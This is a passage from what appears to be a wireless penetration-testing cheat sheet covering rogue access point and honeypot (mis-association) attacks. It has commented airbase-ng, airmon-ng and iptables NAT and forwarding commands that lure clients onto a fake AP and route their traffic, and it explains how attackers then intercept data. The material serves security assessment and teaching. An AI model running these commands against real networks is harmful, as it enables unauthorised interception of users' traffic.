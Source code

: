 ```bash
ifconfig at0 192.168.10.1 netmask 255.255.255.0  
                              # Assigns a static IP to at0, defining the gateway for clients connected to the rogue AP
iptables --flush              # Clears all existing iptables rules in the default filter table
iptables --table nat --flush  # Clears all existing rules in the NAT (Network Address Translation) table
iptables --delete-chain       # Deletes all user-defined chains in the filter table
iptables --table nat --delete-chain  # Deletes all user-defined chains in the NAT table
iptables -P FORWARD ACCEPT    # Sets the default policy for forwarding packets to ACCEPT (allows routing between interfaces)
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
                    # Enables NAT on the outbound interface (eth0), allowing internet access for clients through the rogue AP
echo 1 > /proc/sys/net/ipv4/ip_forward  # Enables IP forwarding in the kernel, allowing traffic to be routed between interfaces


```
## Rogue Access Point
A Rogue Access Point attack sets up an unauthorized AP within the target network's range, either to entice users to connect or to bypass network controls from within a trusted zone. This attack is ideal for persistent network intrusion, lateral movement, or testing physical security controls and wireless access policies. It is effective because many networks do not actively scan for unauthorized APs, and users can be easily lured to connect if the rogue AP is stronger or more familiar than the legitimate one. Once connected, attackers can capture data, redirect traffic, or inject malicious content.

```bash
airmon-ng start wlan0  # Enables monitor mode on wlan0, allowing raw packet capture and injection; creates mon0 or wlan0mon
airbase-ng -e RogueAP -c [channel] mon0  
                    # Launches a fake (rogue) access point named "RogueAP" on the specified Wi-Fi channel
                    # Uses the monitor mode interface (mon0) to broadcast the fake AP signal
ifconfig at0 up  # Brings up the virtual TAP interface (at0) created by airbase-ng to handle traffic from connected clients
dhclient at0  # Requests an IP address from a DHCP server for the at0 interface (optional; only works if a DHCP server exists on the upstream network)
```

---

# Attacking The Client

**Category:** ATTACKING THE CLIENT
## Mis-Association Attack (Honeypot)
The Mis-Association attack, also known as the Honeypot attack, involves setting up a rogue access point broadcasting a familiar or attractive SSID to trick nearby clients into connecting. This attack is best used during assessments of environments where users are likely to connect automatically to open or previously known networks, such as airports, cafes, or enterprise campuses. It is effective because many wireless devices will automatically connect to any network broadcasting a known SSID, allowing attackers to intercept sensitive traffic, redirect victims, or launch man-in-the-middle attacks without needing to breach existing network infrastructure.
